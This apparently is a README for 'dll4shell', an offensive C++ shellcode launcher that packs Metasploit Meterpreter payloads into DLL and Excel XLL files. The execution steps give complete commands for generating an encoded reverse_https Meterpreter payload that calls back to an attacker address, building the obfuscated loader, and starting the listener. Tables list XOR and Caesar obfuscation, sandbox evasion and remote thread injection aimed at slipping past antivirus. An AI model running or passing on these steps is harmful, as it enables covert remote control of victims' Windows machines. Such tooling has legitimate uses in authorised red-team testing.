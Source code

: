 ### C++ shellcode launcher

A collection of DLL wrappers using various shellcode injection and obfuscation techniques. Based on the "charlotte" tool and research mentioned in external references.

### Execution steps
```
git clone https://github.com/cepxeo/dll4shell && cd dll4shell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=YOUR_IP LPORT=443 EXITFUNC=thread -f raw -e x64/xor_dynamic -a x64 -o beacon.bin

sudo apt install mingw-w64
python dll4shell.py -e xor (alternalively: -e shift)

sudo msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST YOUR_IP; set LPORT 8443; exploit"
```

Techniques used (`-e` parameter):

|Value           |Obfuscation method, Details    |Injection type               |Code invocation              |
|----------------|-------------------------------|-----------------------------|-----------------------------|
|xor             |XOR                            |Local | VirtualAlloc, CreateThread   |
|xor1            |XOR, sandbox evasion           |Remote | VirtualAllocEx, CreateRemoteThread|
|xor2            |XOR, sandbox evasion           |Local  | hHeapAlloc, hCreateThread    |
|shift           |Cezar                          |Local  | VirtualAlloc, CreateThread   |
|shift1          |Cezar, sandbox evasion         |Remote  | VirtualAllocEx, CreateRemoteThread   |

Outputs (`-o` parameter):

|Value          |Details                        |
|---------------|-------------------------------|
|dll            |DLL callable via rundll32|
|xll            |XLL callable via Add-Ins|
|payload        |save encrypted payload only|

### External references

* [charlotte](https://github.com/9emin1/charlotte)
* [Bypassing Windows Defender with Environmental Decryption Keys](https://www.secarma.com/bypassing-windows-defender-with-environmental-decryption-keys/)